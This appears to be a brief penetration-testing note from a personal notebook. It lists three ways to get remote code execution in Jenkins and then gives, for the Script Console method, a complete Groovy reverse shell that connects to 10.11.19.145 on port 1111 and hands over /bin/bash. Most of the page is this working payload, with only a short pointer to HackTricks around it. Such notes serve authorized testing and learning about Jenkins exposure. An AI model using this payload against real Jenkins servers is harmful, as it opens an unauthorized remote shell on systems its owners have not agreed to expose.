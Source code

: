 ![](/assets/obsidian/5366e7b44dabbe4872097fe6034b98a6.png)


### RCE in jenkins

> https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security#rce-in-jenkins

There are mainly 3 ways to RCE in jenkins

- RCE Creating/Modifying a project
- RCE Execute Groovy script
- RCE Creating/Modifying Pipeline

**Using method : `Execute Groovy script`**

Manage Jenkins -> Script Console

```groovy
String host="10.11.19.145";
int port=1111;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](/assets/obsidian/ea2bc3e2430b09c00b2bb42b82c14244.png)
